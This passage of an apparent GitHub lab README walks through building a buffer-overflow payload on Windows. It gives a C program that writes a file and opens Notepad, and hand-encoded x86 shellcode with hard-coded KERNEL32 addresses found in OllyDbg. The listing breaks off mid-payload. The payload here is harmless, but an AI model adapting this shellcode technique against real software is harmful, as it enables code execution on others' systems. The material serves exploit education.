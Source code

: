 ![Alt text](https://github.com/kirleo2/bufferoverflow-attack/blob/main/Screenshots/addr.png?raw=true "Addresses")

* Roughly exploit code in C
```C
#include <windows.h>
#include <stdio.h>

int main() {
    HANDLE hFile = CreateFileA("output.txt", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL); // Create a new file
    const char* data = "Buffer overflow is cool!"; // Data to write to the file
    DWORD bytesWritten = 0;
    WriteFile(hFile, data, 24, &bytesWritten, NULL); // Write data to the file
    CloseHandle(hFile); // Close the file handle
    WinExec("notepad.exe output.txt", SW_SHOW);
    return 0;
}
```
- After finding out the addresses of the necessary instructions, it is possible to write the code in assembler.
* To find out instruction encoding, we can use OllyDbg. With double-clicking on any instruction we can change it and see the new encoding.

![Alt text](https://github.com/kirleo2/bufferoverflow-attack/blob/main/Screenshots/encoding.png?raw=true "OllyDbg")

``` Assembly x86
BA 00389A75    MOV EDX,KERNEL32.CreateFileA   
// push „output.txt“
68 78740000    PUSH 7478
68 75742E74    PUSH 742E7475
68 6F757470    PUSH 7074756F
8BCC           MOV ECX,ESP
6A 00          PUSH 0  | hTemplateFile = NULL
68 80000000    PUSH 80  |Attributes = NORMAL
6A 02          PUSH 2  |Mode = CREATE_ALWAYS
6A 00          PUSH 0  ; |pSecurity = NULL
6A 00          PUSH 0  ; |ShareMode = 0
68 00000040    PUSH 40000000 |Access = GENERIC_WRITE
51             PUSH ECX FileName = "output.txt"
FFD2           CALL EDX  KERNEL32.CreateFileA // This function writes the FileHandle to the EAX register
// Push „Buffer overflow is cool“
68 6F6F6C00    PUSH 6C6F6F
68 69732063    PUSH 63207369
68 6C6F7720    PUSH 20776F6C
68 76657266    PUSH 66726576
68 6572206F    PUSH 6F207265
68 42756666    PUSH 66667542
8BCC           MOV ECX,ESP 
68 78563412    PUSH 12345678  // we push some 4 byte value on the stack and pass the address on it using ESP
8BFC           MOV EDI,ESP
50             PUSH EAX // save FileHandle
6A 00          PUSH 0  ; /pOverlapped = NULL
```